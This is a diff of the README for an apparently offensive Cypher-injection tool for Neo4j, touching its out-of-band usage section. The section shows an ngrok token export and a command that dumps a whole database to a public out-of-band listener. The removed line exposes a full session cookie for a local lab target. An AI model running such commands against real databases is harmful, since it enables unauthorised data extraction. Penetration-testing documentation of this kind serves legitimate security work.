

Before and after one commit to yufongg/safecypher, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -418,11 +418,10 @@ options:
 	┌──(root💀kali)-[~/tools/web/safecypher]
 	└─$ export NGROK_AUTHTOKEN=<your token>
 	```
-2. Change the interface to 'public' for wide-reaching tests, allowing SafeCypher to perform comprehensive assessments on accessible Neo4j databases.
+2. Change the interface to 'public'
 	```
-	# change -i to public
 	┌──(root💀kali)-[~/tools/web/safecypher]
-	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i public -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band --dump-all
+	└─$ python3 safecypher.py -u http://public_server:5000/search1 -p keyboard_name -i public -m POST -s "Kohaku" -c "<cookie>" --out-of-band --dump-all
 	```
 
 ### In-Band (Blind Boolean)
````
